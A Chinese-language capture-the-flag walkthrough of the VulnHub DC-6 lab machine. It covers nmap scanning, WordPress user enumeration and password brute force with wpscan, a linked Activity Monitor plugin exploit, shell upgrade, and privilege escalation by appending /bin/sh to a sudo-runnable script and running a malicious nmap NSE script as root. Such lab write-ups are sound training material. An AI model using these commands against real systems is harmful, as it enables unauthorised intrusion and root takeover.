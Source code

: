 ```yaml
---
# 这是页面的图标
icon: api
# 这是文章的标题
title: DC6-Walkthrough
# 设置作者
author: lhz
# 设置写作时间
time: 2021-10-05
# 一个页面只能有一个分类
category: 渗透
# 一个页面可以有多个标签
tag:
  - 渗透
  - 靶机
comment: false

typora-root-url: ..\..\..\..\.vuepress\public


---
```


## 0x01 介绍

靶机地址：

> <https://www.vulnhub.com/entry/dc-6,315/>

**DESCRIPTION**

DC-6 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.

This isn't an overly difficult challenge so should be great for beginners.

The ultimate goal of this challenge is to get root and to read the one and only flag.

Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.

For beginners, Google can be of great assistance, but you can always tweet me at @DCAU7 for assistance to get you going again. But take note: I won't give you the answer, instead, I'll give you an idea about how to move forward.

OK, this isn't really a clue as such, but more of some "we don't want to spend five years waiting for a certain process to finish" kind of advice for those who just want to get on with the job.

`cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt` That should save you a few years. ;-)

**NOTE: You WILL need to edit your hosts file on your pentesting device so that it reads something like:**

```
192.168.0.142 wordy
```

## 0x02 信息收集

扫描IP

```
nmap -sP 172.16.89.0/24
```

![image-20211005150145884](/assets/img/image-20211005150145884.png)

发现ip：172.16.89.7

进一步扫描

```
nmap -T5 -A -v -p- 172.16.89.7
```

结果

```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-05 15:02 CST
NSE: Loaded 153 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 15:02
Completed NSE at 15:02, 0.00s elapsed
Initiating NSE at 15:02
Completed NSE at 15:02, 0.00s elapsed
Initiating NSE at 15:02
Completed NSE at 15:02, 0.00s elapsed
Initiating ARP Ping Scan at 15:02
Scanning 172.16.89.7 [1 port]
Completed ARP Ping Scan at 15:02, 0.02s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 15:02
Completed Parallel DNS resolution of 1 host. at 15:02, 0.00s elapsed
Initiating SYN Stealth Scan at 15:02
Scanning 172.16.89.7 [65535 ports]
Discovered open port 22/tcp on 172.16.89.7
Discovered open port 80/tcp on 172.16.89.7
Completed SYN Stealth Scan at 15:02, 5.10s elapsed (65535 total ports)
Initiating Service scan at 15:02
Scanning 2 services on 172.16.89.7
Completed Service scan at 15:02, 6.54s elapsed (2 services on 1 host)
Initiating OS detection (try #1) against 172.16.89.7
NSE: Script scanning 172.16.89.7.
Initiating NSE at 15:02
Completed NSE at 15:02, 0.65s elapsed
Initiating NSE at 15:02
Completed NSE at 15:02, 0.03s elapsed
Initiating NSE at 15:02
Completed NSE at 15:02, 0.00s elapsed
Nmap scan report for 172.16.89.7
Host is up (0.0010s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 3e:52:ce:ce:01:b6:94:eb:7b:03:7d:be:08:7f:5f:fd (RSA)
|   256 3c:83:65:71:dd:73:d7:23:f8:83:0d:e3:46:bc:b5:6f (ECDSA)
|_  256 41:89:9e:85:ae:30:5b:e0:8f:a4:68:71:06:b4:15:ee (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Did not follow redirect to http://wordy/
MAC Address: 00:0C:29:9F:2E:8D (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Uptime guess: 198.048 days (since Sun Mar 21 13:53:15 2021)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   1.04 ms 172.16.89.7

NSE: Script Post-scanning.
Initiating NSE at 15:02
Completed NSE at 15:02, 0.00s elapsed
Initiating NSE at 15:02
Completed NSE at 15:02, 0.00s elapsed
Initiating NSE at 15:02
Completed NSE at 15:02, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.14 seconds
           Raw packets sent: 65558 (2.885MB) | Rcvd: 65550 (2.623MB)
```

修改host文件

```
echo "172.16.89.7 wordy" >> /etc/hosts
```

访问http://wordy，发现目标是wordpress搭建的网站

![image-20211005150502759](/assets/img/image-20211005150502759.png)

## 0x03 渗透

使用wps扫描网站用户

```
wpscan --url http://wordy --enumerate u
```

根据提示生成密码字典

```
cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt
```

使用wpscan爆破

```
wpscan --url http://wordy --passwords passwords.txt
```

爆破出一个账号：mark，密码：helpdesk01

![image-20211005162459020](/assets/img/image-20211005162459020.png)

使用爆破得到的账号登陆后，发现安装有Active Monitor插件

```
searchsploit Activity Monitor -w
```

发现存在漏洞

https://www.exploit-db.com/exploits/50110

下载利用，得到shell，在kali上回弹shell

![image-20211005162756068](/assets/img/image-20211005162756068.png)

升级shell

```
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

翻一下/home，在mark下发现graham的密码

![image-20211005163415161](/assets/img/image-20211005163415161.png)

切换用户到graham，运行sudo -l

![image-20211005164152979](/assets/img/image-20211005164152979.png)

可以使用jens权限执行sh脚本，获得jens权限

```bash
echo "/bin/sh" >> /home/jens/backups.sh
sudo -u jens /home/jens/backups.sh
```

执行sudo -l

![image-20211005164709678](/assets/img/image-20211005164709678.png)

可以执行nmap，参考前面nmap越权方法

```bash
echo 'os.execute("/bin/sh")' > /tmp/root.nse
cat /tmp/root.nse
sudo nmap --script=/tmp/root.nse
```

![image-20211005164930280](/assets/img/image-20211005164930280.png)
